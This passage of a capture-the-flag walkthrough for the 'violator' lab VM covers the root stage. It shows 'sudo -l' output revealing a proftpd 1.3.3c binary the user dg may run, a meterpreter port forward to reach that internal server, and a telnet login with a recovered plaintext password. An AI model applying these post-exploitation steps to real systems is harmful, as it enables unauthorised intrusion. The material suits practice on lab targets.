 If you don't have much experience with metasploit (especially reverse shells), you should probably research that to get used to it.

# Getting Root

Now, back to the home directories, if you go to ```http://192.168.1.108/root/home``` there's 4 directories for each of the 4 suspicious users we saw earlier: ```af, aw, dg, mg```. The directory for af contains minarke, a terminal based enigma emulator, which is suprisingly difficult to use, aw contains a hint reading ```You are getting close... Can you crack the final enigma..?Y```, mg contains instructions for a Wermacht enigma machine, and dg contains a very small filesystem with proftpd isntalled.

Running ```sudo -l``` shows that user ```dg``` has permissions to run proftpd in this directory, however it only allows connections from 127.0.0.1. Once I ran it, I found out it is proftpd 1.3.3c.

```
dg@violator:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for dg on violator:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dg may run the following commands on violator:
    (ALL) NOPASSWD: /home/dg/bd/sbin/proftpd
dg@violator:~/bd/sbin$ sudo /home/dg/bd/sbin/proftpd
sudo /home/dg/bd/sbin/proftpd
 - setting default address to 127.0.0.1
localhost - SocketBindTight in effect, ignoring DefaultServer
dg@violator:/var/www/html$ ftp localhost 2121
ftp localhost 2121
ftp: connect to address ::1: Connection refused
Trying 127.0.0.1...
Connected to localhost.
220 ProFTPD 1.3.3c Server (Depeche Mode Violator Server) [127.0.0.1]
```

Then I added a port forward through metasploit so I could access it on my local machine:

```
dg@violator:/var/www/html$ ^C
Terminate channel 0? [y/N]  N
[-] core_channel_interact: Operation failed: 1
meterpreter > portfwd add -L 127.0.0.1 -l 2121 -p 2121 -r 127.0.0.1
[*] Local TCP relay created: 127.0.0.1:2121 <-> 127.0.0.1:2121
meterpreter >
```

Now you can access the internal proftpd server v1.3.3c from your machine:

```
paul@archyoga [01:45:03] [~]
-> % telnet 127.0.0.1 2121
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (Depeche Mode Violator Server) [127.0.0.1]
user dg
331 Password required for dg
pass policyoftruth
230 User dg logged in
```
